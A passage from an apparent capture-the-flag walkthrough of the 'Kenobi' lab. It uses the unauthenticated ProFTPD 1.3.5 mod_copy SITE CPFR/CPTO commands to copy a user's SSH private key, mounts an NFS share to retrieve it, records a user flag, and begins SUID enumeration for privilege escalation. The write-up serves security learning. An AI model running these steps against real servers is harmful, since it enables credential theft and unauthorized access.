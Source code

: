 The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

```sh
nc $IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.173.73]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/kenobi_id_rsa
250 Copy successful
QUIT
221 Goodbye.
```

### #4 Lets mount the /var/tmp directory to our machine

```sh
sudo mkdir /mnt/kenobiNFS
sudo mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

What is Kenobi's user flag (/home/kenobi/user.txt)?

> Réponse: **d0b0f3f53b6caa532a83915e19224899**

## [Task 4] Privilege Escalation with Path Variable Manipulation 

### #1 Search for SUID 
> SUID Bit => User executes the file with permissions of the file owner

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

```sh
find / -perm -u=s -type f 2>/dev/null
``` 

```sh
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
```